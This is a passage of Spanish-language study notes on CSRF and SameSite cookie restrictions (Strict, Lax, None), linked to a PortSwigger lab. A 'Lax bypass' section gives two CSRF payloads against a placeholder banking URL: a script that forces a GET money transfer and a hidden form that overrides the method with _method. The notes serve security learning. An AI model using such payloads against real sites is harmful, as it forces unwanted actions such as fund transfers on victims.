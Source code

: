 Laboratorio [aqu](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie)í.

# Samesite cookie

Restricciones SameSite:

- Lax
- Strict
- None

Ninguna de estas restricciones garantiza total inmunidad.

Si no hay una restricción asociada a la cookie chrome utiliza Lax por defecto, lo que quiere decir que solo se enviara la cookie si cumple con un criterio.

## Strict

El sitio de la solicitud debe coincidir con el sitio que se muestra actualmente en la barra URL del navegador si no, la cookie no se va a enviar lo que quiere decir que la cookie no se envía entre sitios diferentes.

## Lax

Para que se envíe la cookie la solicitud debe cumplir los siguiente

- Utiliza método GET
- La solicitud se debe realizar por parte de un usuario(por ejemplo si la realiza un bot no se envia) como al hacer clic en un link

## None

La cookie se envía en todas las solicitudes que se hagan.

Si la cookie es configurada con el valor None se le debe añadir también el valor secure para que solo se envíe en conexiones https.

# Lax bypass

Provocando una petición Get desde el navegador de la victima se puede llevar a cabo un csrf

```jsx
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

Incluso si no se acepta el método GET algunos frameworks permiten modificar el método de la siguiente manera con el valor(_method)

```jsx
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
```

